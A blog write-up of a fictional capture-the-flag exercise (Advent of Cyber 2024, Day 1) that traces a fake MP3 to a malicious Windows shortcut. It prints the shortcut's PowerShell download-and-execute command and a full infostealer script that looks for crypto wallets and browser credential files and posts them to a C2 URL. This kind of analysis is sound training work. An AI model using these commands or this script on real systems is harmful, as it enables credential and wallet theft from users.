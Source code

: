 +++
title = 'Advent of Cyber 2024 - Day 1'
date = 2024-12-02T10:12:29+02:00
draft = false
+++

There is a hosted website that appears to be a converter called "The Glitch's All-in-One Converter".

Enter YouTube URL and press convert. 

Unzipping the download.zip produces two files song.mp3 and somg.mp3. 

`````
# Inspect file type
file somg.mp3 

# Result
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
`````

The somg.mp3 appears to be a MS lnk file - a file type that can be used to launch programs for example. 

````
# Further inspection
exiftool somg.mp3 

# Result
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:02 08:08:57+00:00
File Inode Change Date/Time     : 2024:12:02 08:08:26+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
````

Exiftool exposes the contents of the lnk file. In short it appears to download and run a malicious Powershell script. 

`````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
`````

The script attempts to steal crypto wallets and credentials stored in Firefox and Chrome browsers and then send that information to a C2 server at http://papash3ll.thm/data. 

Who is the developer? In the malicious script there is a lead that can be searched for: "Created by the one and only M.M". Running the search in DuckDuckGo revelead the GitHub page below:

https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues

````
# The conversation between MM-WarevilleTHM and Bloatware-WarevilleTHM on Oct 30, 2024

# 1
Hey Bloatware,

I came across this pretty cool C++ script of yours and would like to use it for Wareville. My only issue is that I'm not too good with C++ and I don’t really vibe. I’m much more comfortable with PowerShell.

The code does some interesting things, like searching for wallet and browser credential files and sending the findings to a C2 server. I’d love to cross-check my PowerShell version of this, especially since my C++ skills are about as sharp as a butter knife these days.

Appreciate any guidance! Please save me from pointer madness 😅.

# 2
Hey MM, Thanks for the shoutout. Haha, I totally get it! Pointers and memory management can feel like trying to defuse a bomb with a toothpick.

I’m guessing it’s the file searching and C2 communication that’s got you sweating. Share your code, and we'll see what we have.
````

The threat actors' conversation revelead the developer of the script. Further inspection of GitHub points to another project of MM's https://github.com/MM-WarevilleTHM/M.M. 

The threat actor's name is Mayor Malware (lol :D). 